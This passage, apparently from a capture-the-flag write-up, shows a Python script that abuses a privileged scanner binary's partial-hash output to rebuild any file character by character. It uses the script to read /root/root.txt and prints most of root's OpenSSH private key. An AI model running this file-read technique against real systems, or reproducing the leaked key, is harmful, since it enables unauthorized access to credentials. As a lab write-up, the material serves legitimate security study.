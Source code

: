 ~~~
    data = os.popen(f"/opt/scanner/scanner -p -s e76884da2fd0ccf43b73c42f22d72e05 -c {file} -l {length}").read()
    data_lines = data.split("\n")
    return data_lines[0].split()[-1]

file = input("File path: ")
content = ""
cont = 1

while True:
    try:
        partial_hash = get_hash(file, cont)
        new_char = find_character(content, partial_hash)
        content += new_char
        cont += 1
    except:
        break

print(os.system("clear"))
print(f"Content of file {file}")
print(content)

~~~

With this we can get literally anything in the machine , since scanner can read everything.!!!

I tried to read `/root/root.txt`

Also got `/root/.ssh/id_rsa`

~~~
-----BEGIN OPENSSH PRIVATE KEY-----
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
~~~